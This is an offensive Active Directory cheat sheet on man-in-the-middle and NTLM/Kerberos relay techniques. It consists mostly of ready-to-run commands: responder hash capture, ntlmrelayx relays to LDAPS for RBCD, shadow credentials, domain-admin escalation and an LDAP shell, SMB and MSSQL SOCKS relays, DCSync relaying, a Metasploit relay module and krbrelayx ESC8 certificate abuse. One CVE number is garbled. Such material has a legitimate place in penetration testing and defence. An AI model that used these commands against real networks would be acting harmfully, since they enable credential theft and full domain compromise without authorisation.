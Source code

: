 ```yaml
---
title: "Man In The Middle (Listen and Relay)"
description: "Man In The Middle (Listen and Relay) techniques and commands for Active Directory security assessment."
---
```

# Man In The Middle (Listen and Relay)
## Listen *Hash NTLMv1 or NTLMv2 || Username || Credentials (ldap/http)*{: .highlight} 
- `responder -l <interface> #use --lm to force downgrade`
- `smbclient.py`

## NTLM relay
- MS08-068 self relay @CVE@
  - `msf> exploit/windows/smb_smb_relay # windows 2000 / windows server 2008`

- SMB -> LDAP(S)
  - NTLMv1
    - remove mic (no CVE needed)  *see LDAP(S)*{: .highlight}
  - NTLMv2
    - Remove mic (CVE-2019-1040) @CVE@ *see LDAP(S)*{: .highlight}

- HTTP(S) -> LDAP(S)
  - Usually from webdav coerce *see LDAP(S)*{: .highlight}

- To LDAP(S)
  - Relay to LDAP if LDAP signing and LDAPS channel binding not enforced (default)
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --add-computer <computer_name> <computer_password> --delegate-access ` *RBCD*{: .highlight}
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --shadow-credentials --shadow-target '<dc_name$>'` *Shadow Credentials*{: .highlight}
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --escalate-user <user>` *Domain admin*{: .highlight}
    - `ntlmrelayx.py -t ldaps://<dc_ip> --remove-mic -smb2support --interactive # connect to ldap_shell with nc 127.0.0.1 10111` *LDAP SHELL*{: .highlight}

- To SMB
  - Relay to SMB (if SMB is not signed)
    - Find SMB not signed targets (default if not a Domain controler)
      - `nxc smb <ip_range> --gen-relay-list smb_unsigned_ips.txt`
    - `ntlmrelayx.py -tf smb_unsigned_ips.txt -smb2support [--ipv6] -socks` *SMB Socks*{: .highlight}

- To HTTP 
  - Relay to CA web enrollement *ESC8*{: .highlight}
  - Relay to WSUS *WSUS*{: .highlight}

- To MsSQL
  - `ntlmrelayx.py -t mssql://<ip> [-smb2support] -socks` *MSSQL Socks*{: .highlight}

- SMB -> NETLOGON
  - Zero-Logon (safe method) (CVE-202-1472) @CVE@
    - Relay one dc to another
      - `ntlmrelayx.py -t dcsync://<dc_to_ip> -smb2support -auth-smb <user>:<password>` *DCSYNC*{: .highlight}

## Kerberos relay
- To HTTP
  - `krbrelayx.py -t 'http://<pki>/certsrv/certfnsh.asp' --adcs --template DomainController -v '<target_netbios>$' -ip <attacker_ip>` *ESC8*{: .highlight}
- SMB -> SMB
  - same as NTLM relay, use krbrelayx.py
- SMB -> LDAP(S)
  - same as NTLM relay, use krbrelayx.py